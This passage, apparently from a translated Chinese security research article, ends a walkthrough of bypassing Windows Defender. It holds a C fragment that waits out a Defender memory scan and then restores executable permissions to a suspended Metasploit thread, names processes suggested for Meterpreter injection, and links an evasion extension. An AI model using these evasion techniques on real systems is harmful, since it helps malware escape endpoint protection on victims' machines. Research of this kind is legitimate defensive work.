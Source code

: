 ```
        processOptions-&gt;lpCommandLine,
        processOptions-&gt;lpProcessAttributes,
        processOptions-&gt;lpThreadAttributes,
        processOptions-&gt;bInheritHandles,
        processOptions-&gt;dwCreationFlags,
        processOptions-&gt;lpEnvironment,
        processOptions-&gt;lpCurrentDirectory,
        processOptions-&gt;lpStartupInfo,
        processOptions-&gt;lpProcessInformation,
        processOptions-&gt;hNewToken);

    Sleep(7000);

    if (setPermissions(allocatedAddresses.arr, allocatedAddresses.dwSize, PAGE_EXECUTE_READWRITE)) `{`
        printf("ALL OK, resuming thread\n");

        ResumeThread(metasploitThread);
    `}`
    else `{`
        printf("[X] Coundn't revert permissions back to normal\n");
    `}`

    HeapFree(GetProcessHeap(), HEAP_GENERATE_EXCEPTIONS, processOptions);
    return res;
`}`
```

这里我们只是简单sleep 5秒，等待Windows Defender扫描结束，然后恢复Metasploit模块的正常权限。在测试环境中，5秒已经足够完成任务，但在实际系统或者其他进程上，我们可能需要更长时间。

此外我们在测试中发现，有些进程即使调用到了这些WinAPI函数，依然不会触发Windows Defender。这些进程包括：

```
explorer.exe
smartscreen.exe
```

因此可能还有另一种绕过方法：将Meterpreter payload注入到这些进程中，这样有可能绕过Windows Defender的内存扫描。这两个进程会频繁调用`CreateProcess`，因此我们相信出于性能优化原因，微软不会因此执行扫描操作。

我们开发了一个Metasploit自定义扩展（`Ninjasploit`），作为后渗透扩展来绕过Windows Defender。该扩展提供了两条命令：`install_hooks`及`restore_hooks`，实现了前文描述的基于内存修改的绕过技术。大家可访问[此处](https://github.com/FSecureLABS/Ninjasploit)下载源码。



## 0x06 总结

近几年来，Windows Defender有了不少改进，但如本文所述，我们只需要稍微操作就能绕过静态分析甚至运行时分析。

我们演示了如何通过payload加密及常见的进程注入技术来绕过Windows Defender。此外，尽管更加高级的运行时分析带来了不少阻碍，但我们可以滥用运行时内存扫描的局限性实现绕过。大家也可以测试下一代文件分类技术以及现有的EDR解决方案，这些方案可能会带来更多挑战。



## 0x07 参考资料
